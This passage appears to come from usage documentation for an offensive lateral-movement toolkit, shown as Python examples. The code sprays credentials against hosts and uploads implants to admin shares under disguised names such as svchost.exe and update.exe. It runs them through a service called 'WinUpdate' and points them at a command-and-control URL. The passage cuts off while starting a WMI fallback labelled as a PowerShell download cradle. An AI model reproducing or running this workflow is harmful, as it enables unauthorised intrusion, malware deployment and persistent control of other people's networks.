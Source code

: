```python
scanner.add_target('192.168.1.101', hostname='FILE01')

# Spray credentials (stop on first success per target)
results = scanner.spray_credentials(stop_on_success=True)

# Print compromised hosts
print(f"[+] Compromised {len(scanner.compromised_hosts)} hosts:")
for host in scanner.compromised_hosts:
    target = scanner.targets[host]
    print(f"  {host} - {target.access_method} - {target.credentials_used}")

# Deploy implants
for host in scanner.compromised_hosts:
    scanner.deploy_implant(
        target=host,
        implant_path='C:\\implant.exe',
        remote_path='C$\\temp\\svchost.exe',
        c2_url='http://10.10.10.10:8443'
    )

# Generate report
print(scanner.generate_report())

# Export to JSON
scanner.export_results('lateral_movement.json')
```

## Complete Workflows

### Workflow 1: Single Target Lateral Movement

```python
from lateral_movement.smb_wmi import SMBExecution, WMIExecution

# Target a known host
target = '192.168.1.100'
username = 'admin'
password = 'Password123'
domain = 'CORP'

# Step 1: Test SMB access
smb = SMBExecution(target, username, password, domain)

if smb.test_connection():
    print(f"[+] SMB access successful to {target}")

    # Step 2: Enumerate shares
    shares = smb.enumerate_shares()

    # Step 3: Upload implant
    if 'C$' in shares:
        smb.upload_file('C:\\local\\implant.exe', 'C$\\temp\\update.exe')

        # Step 4: Execute implant
        smb.psexec_execute('C:\\temp\\update.exe', service_name='WinUpdate')

        print(f"[+] Implant deployed and executed on {target}")

else:
    # Fallback to WMI
    wmi = WMIExecution(target, username, password, domain)

    # Execute PowerShell download cradle
```